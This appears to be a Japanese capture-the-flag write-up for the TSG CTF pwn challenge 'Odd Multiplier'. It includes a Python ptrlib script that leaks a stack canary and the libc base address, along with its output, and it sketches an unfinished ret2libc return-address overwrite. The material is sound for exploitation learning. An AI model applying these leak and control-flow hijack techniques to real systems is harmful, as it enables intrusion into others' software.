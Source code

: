 # [pwn 497pts] Odd Multiplier - TSG CTF
64ビットで全部有効です。
```
$ checksec -f multiplier
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   75 Symbols     Yes	0		2	multiplier
```

入力した奇数（1から255）を掛け算してくれるのですが、結果が桁溢れせず、いくらでも大きくなります。
適当に255をたくさん打てば分かるのですが、明らかにスタック上の値をリークできています。
これを利用してlibc baseとstack canaryが取りましょう。

```python
from ptrlib import *

libc = ELF("./libc-2.27.so")
sock = Process("./multiplier")

sock.recvline()

# leak canary
sock.recvline()
for i in range(25):
    sock.sendline("255")
sock.sendline("0")
canary = bytes.fromhex(bytes2str(sock.recvline().rstrip()[:-0x18 * 2]))
canary = u64(b'\x00' + canary[::-1][1:])
dump("canary = " + hex(canary))

# leak libc base
sock.recvline()
for i in range(41):
    sock.sendline("255")
sock.sendline("0")
addr_retaddr = bytes.fromhex(bytes2str(sock.recvline().rstrip()[:-0x28 * 2]))
addr_retaddr = u64(addr_retaddr[::-1])
libc_base = (addr_retaddr - libc.symbol("__libc_start_main")) & 0xfffffffffffff000
dump("libc base = " + hex(libc_base))
```

こんな感じで取れています。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=19396)
[ptrlib] canary = 0x6b29ba2e172e1400
[ptrlib] libc base = 0x7ff4f0133000
```

あとはリターンアドレスを書き換えてret2libcすれば良いのですが、少し問題があります。
掛け算した結果が必ずcanaryとone gadgetを含む必要があるのですが、そのような値が奇数の積で表されるのでしょうか。
~~私はそんな都合の良いアルゴリズムは知らないのでwriteupを見ます。~~
※公式writeupを見ましたがコメントが一切書いてなくて何やってるか意味不明だったのでやっぱり自分で考えます。
まずはone gadgetとcanaryを分けて書き込むことにしました。
z3を試しましたがダメでした。



# 感想
面白かったです。
競技プログラミングとかやってる人はこういうアルゴリズムすぐ思い付くんだろうか。

# 参考文献
[1] [https://github.com/tsg-ut/tsgctf/blob/master/pwn/multiplier/writeup/solve.py](https://github.com/tsg-ut/tsgctf/blob/master/pwn/multiplier/writeup/solve.py)